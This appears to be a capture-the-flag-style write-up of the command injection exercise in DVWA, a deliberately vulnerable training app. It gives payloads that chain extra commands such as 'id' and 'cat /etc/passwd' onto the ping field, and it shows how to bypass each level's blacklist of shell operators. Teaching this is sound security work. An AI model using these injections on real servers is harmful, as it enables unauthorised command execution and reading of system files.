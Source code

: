 # DVWA - Command Injection

## Description

**Vulnerability:** Command injection    
**Impact:** Get access to server resources through `ping` function.

---

## LOW Security Level
This LOW level ping function doesn't have any filter or regex to check the input we enter for them. Therefore, we can leverage this vulnerability to execute additional commands to the server.
Example:
```
1.1.1.1; id
```
This payload will `ping 1.1.1.1` but also run `id`. The result is:
```bash
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
64 bytes from 1.1.1.1: icmp_seq=1 ttl=52 time=63.0 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=52 time=93.5 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=52 time=76.8 ms
64 bytes from 1.1.1.1: icmp_seq=4 ttl=52 time=50.4 ms

--- 1.1.1.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 50.401/70.910/93.461/16.016 ms
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can see that we are `www-data` since this is the role that host the website. Try payload `1.1.1.1; cat /etc/passwd`. This should be the same `/etc/passwd` content on your computer.

## MEDIUM Security Level
This MEDIUM level has a blacklist:
```php
// Set blacklist
$substitutions = array(
    '&&' => '',
    ';'  => '',
);

// Remove any of the characters in the array (blacklist).
$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```
This blacklist will prevent us from using the payload in LOW security level. However, instead of `&&` and `;` we can use other keywords which is `|`. The payload is:
```bash
| id

# or 

| cat /etc/passwd
```
It should show the same result as LOW security level.

## HIGH Security Level
This is the new blacklist
```php
// Set blacklist
$substitutions = array(
    '||' => '',
    '&'  => '',
    ';'  => '',
    '| ' => '',
    '-'  => '',
    '$'  => '',
    '('  => '',
    ')'  => '',
    '`'  => '',
);
```
You can see that it prevent a bunch of operators however focus on this line:
```php
'| ' => '',
```
It just blacklist the `'| '` so `'|'` will not be prevented. We can leverage the payload:
```
1.1.1.1|id

1.1.1.1|cat /etc/passwd
```

## Resources
- https://www.scribd.com/doc/2530476/Php-Endangers-Remote-Code-Execution
- http://www.ss64.com/bash/
- http://www.ss64.com/nt/
- https://owasp.org/www-community/attacks/Command_Injection
